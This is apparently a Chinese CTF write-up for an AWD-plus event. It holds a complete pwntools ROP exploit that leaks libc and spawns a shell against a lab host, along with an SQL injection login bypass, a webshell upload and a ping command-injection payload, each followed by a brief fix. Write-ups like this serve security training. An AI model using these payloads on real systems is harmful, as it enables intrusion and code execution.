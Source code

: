 # WP

## awdp-gitlab

### 攻击

64位pwn 题目，IDA pro 打开 发现visitShop 存在漏洞 

![image-20231206165320660](C:\Users\g\AppData\Roaming\Typora\typora-user-images\image-20231206165320660.png)

![image-20231206165308173](C:\Users\g\AppData\Roaming\Typora\typora-user-images\image-20231206165308173.png)

```python
import warnings

from pwn import *

warnings.filterwarnings("ignore", category=BytesWarning)


def r64_7f():
    return u64(p.recvuntil(b"\x7f")[-6:] + b"\x00\x00")


context(arch="amd64", os="linux")
fileName = "./pwn-awdp"
elfName = fileName

LibcName = "./libc-2.31.so"

remoteAddress = "192.168.10.5"
remotePort = 6666

local = 0  # 1 本地测试，0 远端测试
debug = 1

if debug:
    context.log_level = "debug"
    context.terminal = ["tmux", "splitw", "-h"]

if local:
    elf = ELF(fileName)
    libc = ELF(LibcName)
    p = process(fileName)

else:
    p = remote(remoteAddress, remotePort)
    elf = ELF(fileName)
    libc = ELF(LibcName)

# 配合 ROPgadget 得到地址
pop_rdi = 0x04010B3
puts_plt = 0x04006C0
puts_got = 0x0602018
ret_addr = 0x0400D0C  # 返回 welcome 函数头部
ret = 0x04006AE  # 返回_init 函数尾部 ret

payload1 = (
    b"0" * (0x06 + 0x8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(ret_addr)
)

p.recvuntil(":")
p.sendline("name")

p.recvuntil(":")
p.sendline("2")

p.recvuntil(":")
p.sendline(payload1)

puts_addr = r64_7f()
# print(puts_addr)

lib_puts_addr = libc.symbols["puts"]  # 寻找 puts 在该库中的偏移
lib_system_addr = libc.symbols["system"]  # 寻找 sytem 在该库中的偏移
lib_bin_sh_addr = next(libc.search(b"/bin/sh"))  # 寻找“bin/sh”在该库中的偏移

libc_base = puts_addr - lib_puts_addr  # 寻找该库的基地址
system_addr = libc_base + lib_system_addr  # 基地址 + 偏移找 system 真实地址
binsh_addr = libc_base + lib_bin_sh_addr  # 基地址 + 偏移找 bin/sh 真实地址

payload2 = (
    b"0" * (0x06 + 0x8) + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
)

p.recvuntil(": ")
# p.sendline("2")
# p.recvuntil(": ")
p.sendline(payload2)
p.interactive()

```

### 防御

修栈溢出漏洞，改小它的值

## awdp_sqlupload

### 攻击

存在SQL注入，登录页面使用 `'||1#` 进入，使用 Burp Suite 上传木马 获取flag

![image-20231206173559374](C:\Users\g\AppData\Roaming\Typora\typora-user-images\image-20231206173559374.png)

![image-20231206173050882](C:\Users\g\AppData\Roaming\Typora\typora-user-images\image-20231206173050882.png)

### 防御

增加sql注入 的过滤方式

## awdp-your-identity

### 攻击

用户名 admin，Ping 中 存在命令执行漏洞，`｜cat flag` 获取flag

![image-20231206173129213](C:\Users\g\AppData\Roaming\Typora\typora-user-images\image-20231206173129213.png)

### 防御

过滤&& ｜｜等



## awdp-found-cms

### 攻击

### 防御